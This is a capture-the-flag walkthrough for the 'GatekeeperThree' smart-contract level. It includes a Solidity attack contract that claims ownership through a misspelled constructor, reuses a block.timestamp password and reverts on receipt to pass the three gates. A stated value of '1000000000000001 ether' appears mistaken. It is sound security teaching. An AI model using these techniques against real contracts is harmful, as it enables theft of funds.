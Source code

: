 1. Get past the gates and become an entrant.

<details><summary>Level Contract</summary></details>

### Solution

To pass the first gate, we need to deploy a `Hack` contract and call the `construct0r` function from it. This will make the hack contract the new owner. This is the requirement to pass the first gate.

To make it pass the second gate, `allowEntrance` needs to be true. To make this happen, our hack contract needs to call `createTrick`. The password of the created instance of `SimpleTrick` is set to `block.timestamp` in the constructor. Let's exploit this by calling `getAllowance(block.timestamp)` in the same transaction. Therefore the password value will be the current `block.timestamp`.

To get past gateThree, let's send a minimum of `1000000000000001 ether` to the `GatekeeperThree` contract. From there all we need is for the hack contract to revert when receiving any amount.

Here is the hack contract I used.

```js
contract Hack {
  GatekeeperThree target;

  constructor(address payable _targetAddress) {
    target = GatekeeperThree(_targetAddress);
  }

  function hack() external {
    // gateone
    target.construct0r(); // address(this) becomes

    // gateTwo
    target.createTrick(); // sets the PW as block.timestamp
    target.getAllowance(block.timestamp); // allowEntrance = True

    target.enter();
  }

  // gateThree
  receive() external payable {
    revert();
  }
}
```

## <a id="29"></a>Level 29 - Switch

### Objective

1. Flip the switch to pass the level.

<details><summary>Level Contract</summary></details>
